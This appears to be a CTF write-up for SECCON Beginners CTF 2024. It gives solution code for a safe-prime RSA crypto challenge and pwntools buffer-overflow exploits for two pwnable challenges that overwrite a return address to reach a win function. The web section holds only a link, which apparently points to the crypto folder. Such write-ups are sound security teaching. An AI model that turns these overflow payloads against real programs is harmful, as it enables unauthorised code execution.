 # SECCON Beginners CTF 2024

- https://github.com/SECCON/SECCON_Beginners_CTF_2024

## crypto

### Safe Prime

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=5m40s

#### Solution 1

```python
#!/usr/bin/env python3
from Crypto.Util.number import long_to_bytes
from sympy import symbols, Eq, solve
n = 292927367433510948901751902057717800692038691293351366163009654796102787183601223853665784238601655926920628800436003079044921928983307813012149143680956641439800408783429996002829316421340550469318295239640149707659994033143360850517185860496309968947622345912323183329662031340775767654881876683235701491291
c = 40791470236110804733312817275921324892019927976655404478966109115157033048751614414177683787333122984170869148886461684367352872341935843163852393126653174874958667177632653833127408726094823976937236033974500273341920433616691535827765625224845089258529412235827313525710616060854484132337663369013424587861
e = 65537
# q = 2 * p + 1
# n = p * q
# c = pow(m, e, n)
p = symbols('p')
eq = Eq(n, p*(2*p + 1))
solutions = solve(eq, p)
print(f'{solutions=}')
p = int(max(solutions))
q = 2*p + 1
phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
m = pow(c, d, n)
print(long_to_bytes(m).decode())
```

## pwnable

### simpleoverflow

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=2m30s

#### Solution 1

```zsh
python3 -c "print('A'*10)"|./chall
```

#### Solution 2

```python
#!/usr/bin/env python3
from pwn import ELF, context, p64, process, remote
context.log_level = 'debug'
exe = context.binary = ELF('./chall')
# io = exe.process([exe.path])
io = remote('::1', 9000)
io.sendlineafter(b'name:', b'A'*0xe + b'B'*0x8 + p64(0x4011ef))
io.interactive()
```

### simpleoverwrite

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=17m30s

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import ELF, context, p64, process
# context.log_level = 'debug'
exe = context.binary = ELF('./chall')
io = process([exe.path])
io.sendlineafter(b'input:', b'A'*0xa + b'B'*8 + p64(exe.sym.win))
io.interactive()
```

## web

#### wooorker

- https://github.com/SECCON/SECCON_Beginners_CTF_2024/tree/main/crypto/Safe%20Prime
